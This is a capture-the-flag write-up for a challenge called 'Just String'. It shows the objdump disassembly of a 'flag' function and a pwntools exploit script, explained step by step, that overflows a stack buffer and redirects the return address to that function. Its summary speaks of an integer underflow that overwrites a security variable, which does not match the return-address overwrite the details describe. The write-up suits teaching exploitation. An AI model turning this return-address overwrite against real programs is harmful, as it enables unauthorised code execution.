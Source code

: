 # Writeup for Just String
## Summary
This code involves the use of an unsigned integer underflow vulnerability to set a variable to a higher than intended value, leading to buffer overflow to modify a security variable.

## Details
The provided binary contains a function `flag` that reveals the flag when executed. The goal is to overflow the buffer in the input prompt to overwrite the return address with the address of the `flag` function. 

The `objdump` output shows the disassembly of the binary, revealing key functions and their addresses, including the `flag` function:

```
00000000000011bc <flag>:
    11bc:   55                      push   %rbp
    11bd:   48 89 e5                mov    %rsp,%rbp
    11c0:   48 8d 05 61 0e 00 00    lea    0xe61(%rip),%rax        # 2028 <_IO_stdin_used+0x28>
    11c7:   48 89 c7                mov    %rax,%rdi
    11ca:   b8 00 00 00 00          mov    $0x0,%eax
    11cf:   e8 6c fe ff ff          call   1040 <printf@plt>
    11d4:   90                      nop
    11d5:   5d                      pop    %rbp
    11d6:   c3                      ret
```

### Python Script
The provided Python script uses `pwntools` to automate the process of finding the buffer overflow offset and exploiting the binary to call the `flag` function.

```python
from pwn import *

binary = context.binary = ELF("./juststring")

domain = None
port = None

if len(sys.argv) > 2:
    domain = sys.argv[1]
    port = sys.argv[2]

if domain is None:
    p = process(binary.path)
else:
    p = remote(domain, port)

# Finding the offset
offset = cyclic_find("caae")
payload = flat(
    offset * "A",
    p64(binary.symbols["flag"])
)
p.sendlineafter("Enter your name:", payload)
p.interactive()
```

### Steps Explained

1. **Initialization**: Load the ELF binary and set the context architecture.
2. **Remote or Local Execution**: Determine whether to connect to a remote server or run the process locally.
3. **Finding the Offset**: Use `cyclic_find` to determine the exact offset where the buffer overflow occurs.
4. **Constructing the Payload**: Create a payload to fill the buffer up to the overflow point and then overwrite the return address with the address of the `flag` function.
5. **Sending the Payload**: Send the payload to the binary and interact with the process to retrieve the flag.

### Detailed Walkthrough

1. **Loading the Binary**:
   ```python
   binary = context.binary = ELF("./juststring")
   ```
   This loads the binary and sets the architecture context, ensuring `pwntools` knows the correct binary format.

2. **Determine Execution Mode**:
   ```python
   if len(sys.argv) > 2:
       domain = sys.argv[1]
       port = sys.argv[2]

   if domain is None:
       p = process(binary.path)
   else:
       p = remote(domain, port)
   ```
   This checks if a domain and port are provided for remote execution. If not, it runs the binary locally.

3. **Finding the Offset**:
   ```python
   offset = cyclic_find("caae")
   ```
   The `cyclic_find` function helps determine the offset where the buffer overflow occurs by finding the position of the pattern in the crash dump.

4. **Constructing the Payload**:
   ```python
   payload = flat(
       offset * "A",
       p64(binary.symbols["flag"])
   )
   ```
   This constructs the payload by padding with 'A's up to the overflow point and then placing the address of the `flag` function.

5. **Sending the Payload**:
   ```python
   p.sendlineafter("Enter your name:", payload)
   p.interactive()
   ```
   This sends the payload to the binary after the prompt and then interacts with the process to retrieve the flag.

<image src='./images/flag.png'/>
